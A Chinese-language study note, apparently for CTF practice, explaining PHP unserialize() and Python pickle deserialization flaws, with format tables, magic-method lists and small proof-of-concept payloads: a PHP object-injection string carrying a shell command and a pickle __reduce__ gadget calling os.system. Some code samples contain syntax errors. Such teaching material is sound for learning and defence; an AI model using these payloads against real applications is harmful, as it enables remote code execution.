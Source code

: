 # Unserialization
多個語言都有反序列化的漏洞問題，記住基本觀念：**序列化：物件轉換成字串/反序列化：字串轉換成物件**。  
*  [PHP Unserialization](#php-unserialization)  
   *  [Serialization vs Unserialization](#serialization-vs-unserialization)  
   *  [Magic Function](#magic-function)  
   *  [Exploit](#exploit)    
   *  [Reference](#reference)  
*  [Python Unserialization](#python-unserialization)  
   *  [Magic Function](#magic-function)  
   *  [Exploit](#exploit)  
   *  [Reference](#reference)
   

# PHP Unserialization
Cookie 和 session中常會用到。如果傳入unserialize()的參數會可控的話，將可以透過精心製造的payload去覆蓋一些已有的變量甚至控制程式流程。  

## Serialization vs Unserialization
簡單的來說：  
```serialize()```: 讓物件變成易於傳輸或儲存的值或字串  
```unserialize()```: 上述過程的逆向反應  
```php
class pwnch(){
  $test = "helloworld";
  function __wakeup(){
      echo "hello again";
  }
}
echo serialize(new pwnch());   // OUTPUT: O:5:"pwnch":1:{s:4:"test";s:10:"helloworld";} 
```
OUTPUT: ```O``` 代表物件, ```5``` 是物件名的長度. ```1``` 是屬性大小, ```4``` 是變數名稱的長度, 後面整體的屬性構成是```key:value```.  

型態 | 語法  
------------ | -------------  
String | ```s:size:value;```  
Integer | ```i:value;```  
Boolean | ```b:value;```  
NULL | ```N;```  
Array | ```a:size:{key-type:key-value;value-type:value-value;}```  
Object | ```O:strlen(Object):class-name:object size:```  
------------ | -------------  
public | ```{s:4:"test"}```  
private | ```{s:11:"%00pwnch%00test"}```  
protected | ```{s:7:"%00*%00test"}```  

## Magic Function
* ```construct()```: new一個物件時會自動調用，但是unserialize()不會調用
* ```destruct()```: 銷毀物件時自動調用，unserialize也會調用  
* ```__sleep()```: serialize會優先執行sleep()  
* ```__wakeup()```: unserialize會優先執行wakeup()  

## Exploit
統整一下payload
```php
unserialize($_GET[1]);

1 = O:5:"pwnch":1:{s:4:"test";s:length of your code:"code you want to insert";}

// 這邊可以覆蓋變量，記得要連同修改你自己塞入的payload長度  


// 那有滿滿的wakeup和destruct給你調用！
// 自己找有用的gadget把它串起來  

1 = O:5:"pwnch":1:{s:4:"test";O:6:"pwnch2":1{s:5:"test2";s:10:"echo `ls`;";}}

// 上例中我強行將test中的constructor覆蓋成pwnch2，再進而覆蓋pwnch2裡的變量：因為pwnch2裡有我想要用的function

// 本有想要在反序列化裡試試延伸數組的特性來建造php後門
// 構造了很久都沒有成功
```
Tools:  
* [php在线反序列化工具](https://1024tools.com/unserialize)

## Reference
1. [chybeta's blog](https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)  

# Python unserialization
[關於模塊的細節我相當推這篇文章](https://www.jianshu.com/p/5f936abf31f7?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)  
Python中的**pickle**和**cPickle**都可以實現序列化  
1. ```cPickle.dumps```: obj -> str  
2. ```cPickle.loads```: str -> obj  
另外還可以使用dump/load，這裏就不做討論囉  
python反序列化漏洞比php更嚴重，原因在於可以透過模塊造成RCE！  

## Magic Function
```reduce```時會完全改變被反序列化的對象，因此對象為可控的
```python
// magic function: reduce
import cPickle
import os

class People(object):

    def __init__(self,username,password):
        self.username = username
        self.password = password
        
    def __reduce__(self):
        return (os.system, ('ls',))
        
michael = People('admin','password')
print cPickle.loads(cPickle.dumps(michael))
// Output: ls (the result of ls
```  
要觸發反序列化漏洞我們當然要使用```cPickle.loads```，他接受的參數為str型態，因此我們不能使用```cPickle.loads(michael)```，我這邊就先用dumps把它換成字串。  

## Exploit
CTF裡面常常會與web結合，像是利用```<?php system("echo $data | python vul.py")?>```。```vul.py```中可能有個IO在接，我得把data塞入字串化後帶有**magic function**的物件。  

## Reference
1. [Python反序列化小记](https://www.jianshu.com/p/061d2c594d97)  
2. [序列化和反序列化模块pickle介绍 | Python库](https://www.jianshu.com/p/5f936abf31f7?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)
